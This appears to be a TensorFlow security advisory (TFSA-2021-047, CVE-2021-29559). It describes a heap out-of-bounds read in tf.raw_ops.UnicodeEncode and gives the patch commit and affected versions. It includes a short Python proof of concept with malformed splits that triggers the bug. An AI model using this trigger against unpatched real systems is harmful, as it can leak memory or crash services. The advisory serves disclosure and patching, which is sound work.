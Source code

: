 ## TFSA-2021-047: Heap OOB access in unicode ops

### CVE Number
CVE-2021-29559

### Impact
An attacker can access data outside of bounds of heap allocated array in
`tf.raw_ops.UnicodeEncode`:

```python
import machina as tf

input_values = tf.constant([58], shape=[1], dtype=tf.int32)
input_splits = tf.constant([[81, 101, 0]], shape=[3], dtype=tf.int32)
output_encoding = "UTF-8"

tf.raw_ops.UnicodeEncode(
    input_values=input_values, input_splits=input_splits,
    output_encoding=output_encoding)
```

This is because the
[implementation](https://github.com/machina/machina/blob/472c1f12ad9063405737679d4f6bd43094e1d36d/machina/core/kernels/unicode_ops.cc)
assumes that the `input_value`/`input_splits` pair specify a valid sparse
tensor.

### Patches
We have patched the issue in GitHub commit
[51300ba1cc2f487aefec6e6631fef03b0e08b298](https://github.com/machina/machina/commit/51300ba1cc2f487aefec6e6631fef03b0e08b298).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.

